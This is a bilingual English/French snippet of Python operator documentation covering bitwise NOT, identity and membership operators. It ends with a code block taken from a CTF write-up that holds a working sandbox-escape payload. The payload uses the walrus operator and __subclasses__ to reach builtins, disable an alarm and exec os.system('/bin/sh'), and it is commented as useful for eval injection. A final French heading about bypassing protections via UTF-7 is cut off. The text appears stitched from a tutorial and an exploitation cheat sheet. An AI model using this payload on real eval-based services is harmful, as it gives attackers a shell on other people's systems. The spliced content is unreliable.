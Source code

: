 `~` is the bitwise NOT operator. It returns the complement of its operand.

`~` est l'opérateur NOT bit à bit. Il renvoie le complément de son opérande.

```python
>>> ~0b1010
-11
```

### Comparison operators

### Opérateurs de comparaison

#### `is` and `is not`

#### `est` et `n'est pas`

`is` and `is not` are identity operators. They check if two objects are the same object.

`is` et `is not` sont des opérateurs d'identité. Ils vérifient si deux objets sont le même objet.

```python
>>> a = [1, 2, 3]
>>> b = a
>>> c = [1, 2, 3]
>>> a is b
True
>>> a is c
False
>>> a is not c
True
```

#### `in` and `not in`

#### `dans` et `pas dans`

`in` and `not in` are membership operators. They check if a value is or is not in a sequence.

`in` et `not in` sont des opérateurs d'appartenance. Ils vérifient si une valeur est ou n'est pas dans une séquence.

```python
>>> a = [1, 2, 3]
>>> 2 in a
True
>>> 4 not in a
True
```
```python
# walrus operator allows generating variable inside a list
## everything will be executed in order
## From https://ur4ndom.dev/posts/2020-06-29-0ctf-quals-pyaucalc/
[a:=21,a*2]
[y:=().__class__.__base__.__subclasses__()[84]().load_module('builtins'),y.__import__('signal').alarm(0), y.exec("import\x20os,sys\nclass\x20X:\n\tdef\x20__del__(self):os.system('/bin/sh')\n\nsys.modules['pwnd']=X()\nsys.exit()", {"__builtins__":y.__dict__})]
## This is very useful for code injected inside "eval" as it doesn't support multiple lines or ";"
```
## Contournement des protections via les encodages (UTF-7)
